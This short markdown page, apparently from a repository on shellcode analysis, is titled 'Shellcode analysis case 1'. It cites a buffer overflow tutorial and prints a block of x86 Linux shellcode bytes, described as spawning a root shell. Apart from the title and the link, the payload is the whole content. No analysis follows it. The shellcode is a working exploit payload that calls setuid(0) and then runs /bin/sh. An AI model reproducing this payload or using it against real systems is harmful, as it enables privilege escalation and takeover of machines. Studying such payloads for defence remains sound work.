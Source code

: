 #### Shellcode analysis case 1

----

## Shellcode - Spawns a root shell on Linux : [source](https://www.tenouk.com/Bufferoverflowc/Bufferoverflow6.html) 
```
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52
\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80
```
